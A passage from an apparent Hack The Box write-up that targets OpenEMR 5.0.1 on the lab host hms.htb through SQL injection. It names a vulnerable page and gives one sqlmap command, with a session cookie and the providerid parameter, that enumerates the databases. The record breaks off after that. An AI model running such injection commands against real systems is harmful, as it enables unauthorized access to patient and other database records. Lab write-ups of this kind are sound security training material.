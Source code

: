![Img](images/unauth2.png)

I noted down the openEMR version in case it was needed in the future: `5.0.1`.

### SQL injection

The report mentions different pages where we can get the injection, I chose to use `/fin_appt_popup_user.php`.

*Vulnerable page*

![Img](images/sql1.png)

![Img](images/sql2.png)

After that I decided to automate my scan with `sqlmap`. One thing I needed to add was the cookie after visitng registration, otherwise the page would redirect to login. Here were the steps I took:s

- Get databases: `sqlmap -u 'http://hms.htb/portal/find_appt_popup_user.php?providerid=a&catid=' --cookie='PHPSESSID=jb4g89dk1edakino2vq1qdhmtv' -p providerid --dbs`.

*Sqlmap working*
